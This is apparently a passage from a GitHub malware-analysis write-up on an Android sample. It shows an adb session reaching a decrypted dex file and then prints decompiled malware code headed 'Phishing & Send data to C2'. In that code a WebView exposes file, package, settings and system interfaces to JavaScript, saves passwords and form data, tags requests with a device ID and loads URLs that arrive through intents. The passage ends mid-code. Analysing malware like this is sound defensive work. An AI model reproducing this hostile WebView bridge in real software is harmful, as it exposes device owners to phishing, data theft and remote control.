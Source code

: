 ### The result we are expecting
```shell
λ adb shell
bullhead:/ $ su
bullhead:/ # cd /data/data/com.protector.testing2/
bullhead:/data/data/com.protector.testing2 # ls
app_decrypted cache code_cache lib
bullhead:/data/data/com.protector.testing2 # cd app_decrypted/
bullhead:/data/data/com.protector.testing2/app_decrypted # ls
classes.dex
```

![](https://github.com/JohnCUMT/Android-Project/blob/master/decrypt_dex.png)

## Malicious behavior analysis

### Potential malicious behavior caused by dangerous permissions
![](https://github.com/JohnCUMT/Android-Project/blob/master/15557402673535.jpg)

### Phishing & Send data to C2
```
public int onStartCommand(Intent arg12, int arg13, int arg14) {
        if(arg12 != null) {
            Bundle v2 = arg12.getExtras();
            if(v2 != null) {
                String v0 = this.getexstras(v2, "content");
                String v4 = this.getexstras(v2, "type");
                String v1 = this.getexstras(v2, "data");
                WebView v7 = new WebView(this.getApplicationContext());
                v7.setLayoutParams(new TableRow$LayoutParams(0, -2, 1f));
                v7.addJavascriptInterface(new MeSetting(this.getApplicationContext()), "MeSetting");
                v7.addJavascriptInterface(new MeSystem(this.getApplicationContext()), "MeSystem");
                v7.addJavascriptInterface(new MeFile(this.getApplicationContext()), "MeFile");
                v7.addJavascriptInterface(new MePackage(this.getApplicationContext()), "MePackage");
                v7.addJavascriptInterface(new MeContent(this.getApplicationContext()), "MeContent");
                v7.addJavascriptInterface(new MeAction(this.getApplicationContext()), "MeAction");
                WebSettings v6 = v7.getSettings();
                v6.setSavePassword(true);
                v6.setSaveFormData(true);
                v6.setAllowFileAccess(true);
                if(Build$VERSION.SDK_INT >= 16) {
                    v6.setAllowFileAccessFromFileURLs(true);
                    v6.setAllowUniversalAccessFromFileURLs(true);
                }

                v6.setJavaScriptEnabled(true);
                v6.setUserAgentString("Hash: " + GlobalCode.getUniqueID(this.getApplicationContext()));
                if(v0.substring(0, 7).contains("http://")) {
                    v7.loadUrl(Uri.parse(v0).buildUpon().appendQueryParameter("type", v4).appendQueryParameter("data", v1).build().toString());
                }

                if(v0.substring(0, 8).contains("file:///")) {
                    v7.loadUrl(Uri.parse(v0).buildUpon().build().toString());
                }

                if(!v0.substring(0, 11).contains("javascript:")) {
```